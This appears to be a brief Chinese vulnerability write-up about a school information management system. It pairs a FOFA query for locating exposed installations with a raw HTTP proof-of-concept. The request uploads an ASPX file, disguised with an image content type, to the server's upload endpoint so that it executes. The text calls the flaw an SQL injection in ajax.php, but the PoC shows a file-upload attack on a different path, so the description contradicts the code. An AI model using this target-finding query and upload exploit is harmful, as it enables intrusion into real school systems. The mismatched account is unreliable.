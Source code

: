 **fofa**

```
body="/Login/IndexMobi"
```

**一、漏洞简述**

小学智慧校园信息管理系统主要针对中小学市场研发，是全国首家采用B/S架构，基于云计算和物联网技术，通过浏览器直接登录就可以使用的新型应用管理系统。其接口ajax.php存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

**二、漏洞检测poc**

```yaml
POST /PSE/Upload HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Content-Type: multipart/form-data; boundary=230982304982309
Connection: close
Content-Length: 239

--230982304982309
Content-Disposition: form-data; name="file"; filename="Hello.aspx"
Content-Type: image/jpg

<%@Page Language="C#"%><%Response.Write("HelloWorldTest");System.IO.File.Delete(Request.PhysicalPath);%>
--230982304982309--
```

